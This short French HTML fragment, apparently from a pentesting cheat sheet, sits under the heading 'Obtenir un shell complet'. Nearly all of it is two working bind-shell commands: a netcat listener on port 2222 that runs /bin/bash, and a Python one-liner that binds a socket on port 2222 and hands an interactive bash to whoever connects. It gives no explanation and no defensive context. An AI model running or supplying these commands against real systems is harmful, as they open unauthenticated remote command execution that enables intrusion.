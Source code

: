 <h2>Obtenir un shell complet</h2>
<ul>
  <li>nc -lvp 2222 -e /bin/bash en remote et nc -nv 2222 adress port</li>
  <li>python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])" ouvre un shell sur le port 2222</li>
</ul>
